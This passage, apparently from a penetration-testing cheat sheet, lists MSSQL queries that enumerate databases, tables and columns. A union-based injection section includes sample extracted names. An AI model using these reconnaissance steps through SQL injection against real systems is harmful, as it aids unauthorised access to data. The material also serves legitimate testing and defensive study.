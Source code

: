### MSSQL List Tables

```sql
-- use xtype = 'V' for views
SELECT name FROM master..sysobjects WHERE xtype = 'U';
SELECT name FROM <DBNAME>..sysobjects WHERE xtype='U'
SELECT name FROM someotherdb..sysobjects WHERE xtype = 'U';

-- list column names and types for master..sometable
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name='sometable';

SELECT table_catalog, table_name FROM information_schema.columns
SELECT table_name FROM information_schema.tables WHERE table_catalog='<DBNAME>'

-- Change delimiter value such as ', ' to anything else you want => trace_xe_action_map, trace_xe_event_map, spt_fallback_db, spt_fallback_dev, spt_fallback_usg, spt_monitor, MSreplication_options  (Only works in MSSQL 2017+)
SELECT STRING_AGG(name, ', ') FROM master..sysobjects WHERE xtype = 'U';
```

### MSSQL List Columns

```sql
-- for the current DB only
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'mytable');

-- list column names and types for master..sometable
SELECT master..syscolumns.name, TYPE_NAME(master..syscolumns.xtype) FROM master..syscolumns, master..sysobjects WHERE master..syscolumns.id=master..sysobjects.id AND master..sysobjects.name='sometable'; 

SELECT table_catalog, column_name FROM information_schema.columns

SELECT COL_NAME(OBJECT_ID('<DBNAME>.<TABLE_NAME>'), <INDEX>)
```

## MSSQL Union Based

* Extract databases names

    ```sql
    $ SELECT name FROM master..sysdatabases
    [*] Injection
    [*] msdb
    [*] tempdb
    ```

* Extract tables from Injection database

    ```sql
    $ SELECT name FROM Injection..sysobjects WHERE xtype = 'U'
    [*] Profiles
    [*] Roles
    [*] Users
    ```
